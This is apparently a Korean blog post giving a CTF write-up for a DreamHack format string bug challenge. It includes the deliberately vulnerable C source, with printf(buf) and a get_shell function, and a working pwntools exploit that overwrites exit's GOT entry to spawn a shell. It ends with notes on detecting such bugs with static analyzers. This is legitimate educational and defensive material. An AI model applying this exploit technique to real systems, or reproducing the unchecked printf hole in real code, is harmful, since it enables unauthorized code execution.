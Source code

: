 ```yaml
---
layout: post
title: "(DreamHack) Basic_exploitation_002"
date: 2021-03-05 05:24:00 -0400
categories: Security CTF
---
```


## 풀이
Basic_exploitation_002는 FSB (Format String Bug)에 관한 문제이다.

FSB는 printf, sprintf 등 서식 문자를 사용하는 함수에서 매개변수를 검증하지 않아 발생하는 보안약점이며, 이를 통해 메모리 내용을 볼 수도 있다.

``` c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell() {
    system("/bin/sh");
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();

    read(0, buf, 0x80);
    printf(buf);

    exit(0);
}
```

위 코드에서는 printf함수에 buf만이 들어왔기 때문에 취약하다고 볼 수 있다.\
먼저 buf 변수를 통해 메모리 내용을 확인하고, exit() 함수에 get_shell()함수 주소를 덮어 씌움으로써 쉘을 실행시키도록 한다.

![image](https://user-images.githubusercontent.com/24788751/110103059-d4bd6a00-7de8-11eb-8f9b-229b895ef366.png)
FSB를 익스플로잇하여 첫번째 서식 문자부터 'AAAA'를 참조하는 것을 알 수 있다.

![image](https://user-images.githubusercontent.com/24788751/110103358-34b41080-7de9-11eb-9bfe-cd3937fb5988.png)
디스어셈블러를 통해 get_shell()의 주소가 0x8048609임을 알아냈다.

``` python
from pwn import *

p = remote("host1.dreamhack.games", 12773)
elf = ELF("./basic_exploitation_002")

exit = elf.got['exit']
get_shell = 0x8048609

payload = p32(exit)
payload += p32(exit + 2)
payload += "%34305d"
payload += "%1$n"
payload += "%33275d"
payload += "%2$n"

p.send(payload)
p.interactive()
```

## FSB 탐지
디스어셈블러와 디버거가 아닌 자동화된 보안약점 분석 도구에서는 어떻게 FSB를 탐지하는지 알아본다. 먼저 FSB는 printf, sprintf 등의 취약한 함수를 사용할 경우 발생할 가능성이 높아지므로 printf_s, sprintf_s 등의 함수를 사용하여야 한다.

### 취약한 함수 이름 검색
**Flawfinder**, **Cppcheck**과 같은 보안약점 분석기는 위에서 말한 printf와 같은 취약한 함수들을 단순히 검색하여 해당 프로그램이 취약한 지 분석한다.

### 오염 분석, 데이터 흐름 분석 (Taint analysis, data flow analysis)
**Clang Static Analyzer**는 오염 분석, 데이터 흐름 분석 등의 분석 기법을 이용하여 메모리 값이 변하는지 직접 확인함으로써 보안약점을 탐지한다.
![image](https://user-images.githubusercontent.com/24788751/110103433-4c8b9480-7de9-11eb-8034-817d34e59780.png)

### 두 방식의 장단점
단순히 취약한 함수 이름을 검색한다고 해서 취약하다고 탐지된 프로그램이 실제로 취약한 프로그램인지 확실하지 않을 수 있다. (false positive)\
반면 단순 스트링 매칭 방식이기 때문에 빠른 시간 내에 프로그램을 분석할 수 있는 장점이 있다.

오염 분석, 데이터 흐름 분석은 프로그램을 실제로 실행하면서 취약점의 존재 유무를 판단하기 때문에 더 정확하다. 그러나 프로그램을 실행하면서 분석하기 때문에 분석 시간이 오래 걸린다는 단점이 있다.